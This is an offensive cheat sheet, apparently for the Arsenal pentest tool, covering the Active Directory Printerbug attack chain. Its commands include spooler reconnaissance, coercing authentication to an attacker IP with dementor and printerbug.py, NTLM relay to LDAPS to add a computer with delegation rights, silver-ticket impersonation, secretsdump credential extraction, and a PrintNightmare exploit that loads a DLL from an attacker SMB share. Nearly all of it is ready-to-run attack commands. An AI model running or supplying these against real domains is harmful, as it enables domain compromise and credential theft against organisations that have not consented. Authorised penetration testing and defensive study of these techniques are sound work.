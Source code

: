 # Printerbug

% printerbug, Active directory

## Finding Spooler services listening
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <domain>/<user>:'<password>'@<dc> | grep MS-RPRN
```

## Finding Spooler services anonymous
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <dc> | grep -A 6 MS-RPRN
```

## dementor
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT 
https://github.com/NotMedic/NetNTLMtoSilverTicket

```
dementor.py -d <domain> -u <user> -p <password> <attacker_ip> <dc2>
```

## printerbug
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT 
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py

```
printerbug.py '<domain>/<user>:<password>'@<ip> <attacker_ip>
```

## ntlmrelayx add computer
#plateform/linux  #target/remote #cat/ATTACK/MITM 
```
ntlmrelayx -t ldaps://<dc1> -smb2support --remove-mic --add-computer <computer_name> <computer_password> --delegate-access
```

## use silver ticket
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT 
```
getST.py -spn host/<dc2> -impersonate <user_to_impersonate> -dc-ip <dc1_ip> '<domain>/<computer_name>$:<computer_password>'
```

## secret dump with kerberos
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump -k <dc>
```

## PrintNightmare
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT
https://github.com/cube0x0/CVE-2021-1675

- windows server 2019
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL\x00"
- windows server 2016          
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_db4f0d0030e708f4\\Amd64\\UNIDRV.DLL\x00"

Need a real smb server (not work with the impacket server)

```
CVE-2021-1675.py <domain>/<user>:<password>@<target_ip> '\\<attacker_ip>\<share_name>\<dll_name|inject>.dll'
```



= user : anonymous
= pass : anonymous
= computer_name : arsenal
= dc : DC01.domain.local
= dc1 : DC01.domain.local
= dc2 : DC02.domain.local
= computer_password : 123soleil

